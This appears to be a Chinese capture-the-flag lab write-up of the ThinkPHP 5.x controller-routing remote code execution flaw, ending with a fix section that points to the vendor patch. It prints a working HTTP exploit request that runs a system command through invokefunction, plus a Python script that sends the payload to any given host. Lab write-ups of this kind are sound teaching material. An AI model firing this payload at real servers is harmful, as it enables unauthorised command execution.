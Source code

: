 thinkphp_5 命令执行

# 一、漏洞描述



Thinkphp5.x 版本（5.0.20）中没有对路由中的控制器进行严格过滤，在存在 admin，index 模块、没有开启强制路由的条件下（默认不开启），导致可以注入恶意代码利用反射类调用命名空间其他任意内置类，完成远程代码执行。



# 二、影响版本



ThinkPHP 5.x  < ThinkPHP 5.1.31<=  ThinkPHP 5.0.23



# 三、利用流程

靶场基本信息

靶场地址：`10.10.11.20:19809`

靶场名称: Thinkphp5

靶场描述: Thinkphp5 命令执行

尝试 poc，查询`/tmp`目录下的`flag`

```
GET /index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls%20/tmp HTTP/1.1
Host: 10.10.11.20:19809
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_07be81f78d509865b1926609964cf0ca=admin%7C1590115158%7CN20HCrC96zVmXgHk0BlnkROKbvQd4vf8nAxZoe2G7Uf%7C24b3491dd375a352ed0e49eb87acb2af156ffc23524cdc515962f170639193d5; wp-settings-time-1=1589947833
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close
Upgrade-Insecure-Requests: 1
```

执行结果成功

![exp](.\exp.jpg)



尝试编写 poc

```python
import requests
import sys

def run(ip):
    poc = "/index.php/?s=index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls%20/tmp"  
    header = {'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:22.0) Gecko/20100101 Firefox/22.0', }
    url = ip+poc
    req = requests.get(url, header)
    if req.status_code == 200:
        if "flag" in req.text:
            print(req.text)
if __name__ == '__main__':
    url = sys.argv[1]
    if url[:4] != "http":
        url = "http://"+url

    run(url)
```



![py-tool](.\py-tool.jpg)

复制结果提交，通关



# 四、修复方案



1、官网已发布安全更新，用户可以通过网址[http://www.thinkphp.cn/topic/60400.html ](http://www.thinkphp.cn/topic/60400.html)获得.

2、建议使用以上 ThinkPHP5  开发的内容管理系统的用户及时检查是否存在该漏洞。




